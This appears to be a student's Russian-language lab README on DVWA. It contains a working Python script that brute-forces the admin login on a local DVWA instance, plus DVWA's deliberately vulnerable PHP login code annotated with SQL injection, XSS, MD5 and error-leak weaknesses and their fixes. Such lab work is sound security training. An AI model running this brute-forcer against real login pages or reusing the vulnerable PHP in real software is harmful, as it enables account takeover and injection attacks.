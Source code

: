 # DAMDINOV_LAB_3

Для выполнения данной лабораторной работы была установлена виртуальная система Dojo
![image](https://github.com/user-attachments/assets/badda7dd-b919-49ab-9aa8-aebd15eaa26d)


Задание 1. Переборщик

Запуск DVWA 
![image](https://github.com/user-attachments/assets/44db3c1e-8834-4947-8cfa-72ce0c2d50b5)

Для успешного перебора кода нужно PHPSESSID 
![image](https://github.com/user-attachments/assets/c90a1eae-a58a-4ec1-88fe-4567a7284332)

Код переборщика:
```
import itertools
import requests
import time

charset = 'abcdefghijklmnopqrstuvwxyz'
pass_length = 8
username = "admin"
dop = "passwo"
session = requests.Session()
url = "http://localhost/dvwa/vulnerabilities/brute/"
session.cookies.set("PHPSESSID", "tpqr8qp76rlhvmp091uglh98tm")
session.cookies.set("security", "low")

def podbor(url, username, password):
    params = {
        'username': username,
        'password': password,
        'Login': 'Login'
    }
    try:
        response = session.get(url, params=params)
        return "Welcome to the password protected area admin" in response.text
    except requests.exceptions.ConnectionError as e:
        print(f"[-] Ошибка подключения: {e}")
        return False
    except requests.exceptions.RequestException as e:
        print(f"[-] Ошибка при запросе: {e}")
        return False

def generate_passwords(dop, length, charset):
    remaining_length = length - len(dop)
    for combination in itertools.product(charset, repeat=remaining_length):
        yield dop + ''.join(combination)

def main():
    start_time = time.time()
    print("[*] Начинаем перебор пароля...")
    for password in generate_passwords(dop, pass_length, charset):
        print(f"[*] Проверяем: {password}")
        if podbor(url, username, password):
            print(f"[+] Успешно! Пароль: {password}")
            break
    else:
        print("[-] Не удалось найти пароль.")
    end_time = time.time()
    print(f"[+] Время выполнения: {end_time - start_time:.2f} с")

if __name__ == "__main__":
    main()

```
Переборщик успешно подбирает пароль
![image](https://github.com/user-attachments/assets/24b006af-4ee7-4748-a1af-98a219350616)


Задание 2. Анализ кода
```
<?php
if( isset( $_GET[ 'Login' ] ) ) {
    // Получение имени пользователя
    $user = $_GET[ 'username' ];
    // Получение пароля
    $pass = $_GET[ 'password' ];
    
    // CWE-327 (Использование устаревшего или ненадежного криптографического алгоритма)
    // Используется MD5 для хеширования паролей, что небезопасно. Этот алгоритм считается устаревшим и уязвимым для атак, таких как подбор и коллизии.
    $pass = md5( $pass );

    // CWE-89 (SQL-инъекции)
    // Переменные $user и $pass напрямую вставляются в SQL-запрос без экранирования или использования подготовленных выражений. Это делает приложение уязвимым для SQL-инъекций.
    $query  = "SELECT * FROM `users` WHERE user = '$user' AND password = '$pass';";
    
    // Выполнение SQL-запроса
    $result = mysqli_query($GLOBALS["___mysqli_ston"],  $query ) 
        // CWE-209 (Утечка информации через сообщения об ошибках)
        // Вывод ошибок базы данных на экран позволяет атакующему получить информацию о структуре базы и настройках приложения, что облегчает последующие атаки.
        or die( '<pre>' . ((is_object($GLOBALS["___mysqli_ston"])) ? mysqli_error($GLOBALS["___mysqli_ston"]) : (($___mysqli_res = mysqli_connect_error()) ? $___mysqli_res : false)) . '</pre>' );

    if( $result && mysqli_num_rows( $result ) == 1 ) {
        // Получение данных пользователя
        $row    = mysqli_fetch_assoc( $result );
        $avatar = $row["avatar"];
        
        // CWE-79 (Неэкранированные данные во время генерации веб-страницы — XSS)
        // Данные, полученные из базы данных (например, $avatar), не проходят проверку или экранирование.
        // Это позволяет злоумышленнику внедрять вредоносный код (JavaScript) в веб-страницу.
        $html .= "<p>Welcome to the password protected area {$user}</p>";
        $html .= "<img src=\"{$avatar}\" />";
    }
    else {
        // Ошибка входа
        $html .= "<pre><br />Username and/or password incorrect.</pre>";
    }
    // Закрытие подключения
    ((is_null($___mysqli_res = mysqli_close($GLOBALS["___mysqli_ston"]))) ? false : $___mysqli_res);
}
?>
```
1) Использование устаревшего хеширования (CWE-327): MD5 не обеспечивает должной безопасности для хранения паролей. Нужно заменить на bcrypt.

2) SQL-инъекции (CWE-89): прямое включение пользовательских данных в SQL-запросы без экранирования делает систему уязвимой. Необходимо использовать подготовленные выражения (mysqli_stmt или PDO).

3) Вывод ошибок базы данных в браузер (CWE-209): сообщения об ошибках предоставляют атакующему ценную информацию о сервере и базе данных. Ошибки должны логироваться только на сервере.

4) Уязвимость для XSS (CWE-79): Переменные $user и $avatar выводятся на страницу без экранирования. Это открывает возможность внедрения вредоносного кода. Нужно использовать htmlspecialchars для безопасного вывода данных.

5) Нет защиты от атак методом перебора: не предусмотрено ограничение на количество попыток входа, что делает систему уязвимой для атак перебора паролей.


Задание 3. Своя аутентификация


